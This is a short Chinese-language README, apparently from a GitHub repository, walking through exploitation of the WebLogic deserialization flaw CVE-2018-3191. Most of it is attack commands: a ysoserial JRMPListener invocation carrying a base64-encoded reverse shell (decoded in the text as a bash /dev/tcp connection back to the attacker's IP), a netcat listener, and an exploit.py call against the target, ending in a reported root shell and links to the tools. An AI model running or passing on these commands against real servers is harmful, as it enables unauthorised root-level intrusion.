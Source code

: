# CVE-2018-3191
CVE-2018-3191 反弹shell
本地ip：172.16.38.1
Weblogic：172.16.38.174:7001
1、	本地执行
java -cp ysoserial-master.jar ysoserial.exploit.JRMPListener 2222 CommonsCollections1 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMzguMS83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}'
 
然后执行 nc -lvv 7777
 
（1）	其中的 bash 命令为避免Runtime.getRuntime().exec() 执行过程中将特殊符号转义，进行了base64转码解码的操作，明文为 bash -i >& /dev/tcp/172.16.38.1/7777 0>&1
（2）	此操作在本地监听一个JRMPListener，接收被攻击的weblogic 的请求，并执行指定的bash 反弹命令。
（3）	Nc 监听7777等待weblogic 主机反弹bash连接。
2、	执行
python exploit.py 172.16.38.247 7001 weblogic-spring-jndi-10.3.6.0.jar 172.16.38.1 2222，利用漏洞使weblogic 访问远程rmi服务，并执行bash反弹命令。
 

3、	nc监听的端口收到反弹的bash，root权限。
 
攻击所需工具：
ysoserial-master.jar //反序列化利用工具https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
weblogic-spring-jndi-10.3.6.0.jar // CVE-2018-3191 payload生成工具
https://github.com/voidfyoo/CVE-2018-3191/releases
exploit.py //weblogic t3协议发送工具，集成CVE-2018-3191 payload
